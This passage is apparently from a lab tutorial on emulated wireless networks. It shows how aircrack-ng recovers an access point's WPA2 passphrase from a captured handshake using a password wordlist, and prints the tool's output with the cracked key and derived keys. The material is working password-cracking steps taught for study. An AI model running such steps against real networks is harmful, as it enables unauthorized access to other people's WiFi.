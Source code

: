 
Then we run _aircrack_, so that it can compare the contents of the password file named `password.psk` and the traffic data that **sta2** captured when **sta1** joined the **ap1** access point.

```
    sta2# aircrack-ng -w password.psk -b 02:00:00:00:02:00 sniffer-01.cap
```

And... _voilà_! _Aircrack_ was able to discover the password of the **ap1** access point, as can be seen below.

```
      [00:00:00] 1/0 keys tested (234.69 k/s) 

      Time left: 0 seconds                                   inf%

                          KEY FOUND! [ 123456789a ]


      Master Key     : AE 48 BB 45 8C C1 27 E0 B2 E0 06 8B 78 C6 3A 85 
                       C1 F6 13 44 09 FC 89 9F 94 C5 AB 1F B2 C6 D9 E5 

      Transient Key  : 8F 77 37 71 F4 DE 6A F3 4A F2 B1 FC 81 85 C4 75 
                       57 2A A4 87 DA FA 0E 8B 56 8A 19 D1 F6 84 6C 3F 
                       08 F6 92 53 41 B1 CE 0D FB 81 50 CD 16 8D 20 B4 
                       6D 2A AB 62 28 F7 2C 66 A5 47 89 DC 8E 1C 52 E2 

      EAPOL HMAC     : 53 2E 25 04 69 28 66 64 D1 8A AC 7C 82 6C FA 0
```

#### The 4-Way handshake
The key discovery described in the previous section was only possible because _airodump-ng_ captured the WPA2 handshake. It is imperative to capture traffic data that include handshake messages, otherwise the password discovery process will not work.
